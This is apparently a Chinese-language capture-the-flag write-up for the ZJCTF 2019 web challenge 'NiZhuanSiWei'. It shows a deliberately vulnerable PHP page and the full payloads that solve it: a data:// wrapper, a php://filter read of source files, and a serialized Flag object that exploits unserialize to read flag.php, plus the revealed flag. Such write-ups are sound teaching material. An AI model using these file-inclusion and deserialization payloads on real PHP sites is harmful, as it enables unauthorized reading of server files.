 # ZJCTF 2019

## Web

### NiZhuanSiWei

#### **题目**

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

#### **伪协议**

题目中使用 `file_get_contents($text,'r')` ，因此想到使用伪协议进行传入。

将 `welcome to the zjctf` 进行 base64 编码可以得到 `d2VsY29tZSB0byB0aGUgempjdGY=`

构造 payload `text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=` 即可绕过第一个 if 判断

通过 `useless.php` 可以得知存在该文件，并且存在文件包含，故尝试使用 `file://` 伪协议来获取 `useless.php` 的源代码，即构造 pyaload `text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&&file=php://filter/read=convert.base64-encode/resource=useless.php` 。进行 base64 解码后可以得到 `useless.php` 的源代码

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

#### **反序列化**

```php
$password = unserialize($password);
echo $password;
```

可以发现 `echo $password;` 会触发 `__tostring()` 魔法函数，先进行序列化的构造

```php
<?php
class Flag{  //flag.php
  public $file;

  public function __construct() {
    $this->file = "php://filter/read=convert.base64-encode/resource=flag.php";
  }

  public function __tostring() {
    if (isset($this->file)) {
      echo file_get_contents($this->file);
      echo "<br>";
      return ("U R SO CLOSE !///COME ON PLZ");
    }
  }
}

echo serialize(new Flag());
```

可以得到 `O:4:"Flag":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`

通过构造 payload `text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&&file=useless.php&&password=O:4:"Flag":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}` 就可以得到 flag.php 的内容如下

```php
<br>oh u find it </br>

<!--but i cant give it to u now-->

<?php

if(2===3){  
	return ("flag{fc224e21-fd69-4f3c-937f-b67ee5edccdb}");
}

?>
```

那么这题就解答完毕力！
